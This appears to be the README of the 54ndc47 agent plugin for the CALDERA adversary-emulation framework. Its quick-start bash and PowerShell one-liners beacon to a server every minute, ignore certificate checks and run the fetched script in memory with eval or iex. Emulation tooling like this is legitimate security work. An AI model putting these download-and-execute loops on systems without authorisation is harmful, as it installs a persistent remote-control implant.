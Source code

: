 # 54ndc47

This plugin contains:
* A custom in-memory agent, with variants for PowerShell and Bash
* API endpoints for the agent to communicate to CALDERA over HTTPS

## Quick start

Start the agent on a Linux or OSX box with either of the bash commands below. Note, the second 
command attaches a group to the agent when it first registers.

```
while true; do eval "$(curl -sk -X POST -H "file:54ndc47.sh" https://localhost:8888/file/render)"; sleep 60; done
while true; do eval "$(curl -sk -X POST -H "file:54ndc47.sh" https://localhost:8888/file/render?group=client)"; sleep 60; done
```

Similarly, you can start the agent on Windows machine with either of the following:

These commands are more verbose then the bash ones because they dynamically accommodate all versions of 
PowerShell, from 3.0+. 

```
while($true) {$ErrorActionPreference='SilentlyContinue';$url="https://localhost:8888/file/render"; $ps_table = $PSVersionTable.PSVersion;If([double]$ps_table.Major -ge 6){iex (irm -Method Post -Uri $url -Headers @{"file"="54ndc47.ps1"} -SkipCertificateCheck);}else{[System.Net.ServicePointManager]::ServerCertificateValidationCallback={$True};$web=New-Object System.Net.WebClient;$web.Headers.Add("file","54ndc47.ps1");$resp=$web.UploadString("$url",'');iex($resp);};sleep 60}
while($true) {$ErrorActionPreference='SilentlyContinue';$url="https://localhost:8888/file/render?group=client"; $ps_table = $PSVersionTable.PSVersion;If([double]$ps_table.Major -ge 6){iex (irm -Method Post -Uri $url -Headers @{"file"="54ndc47.ps1"} -SkipCertificateCheck);}else{[System.Net.ServicePointManager]::ServerCertificateValidationCallback={$True};$web=New-Object System.Net.WebClient;$web.Headers.Add("file","54ndc47.ps1");$resp=$web.UploadString("$url",'');iex($resp);};sleep 60}
```

## Operating systems

Currently, 54ndc47 will run on any Linux, OSX or Windows machine.
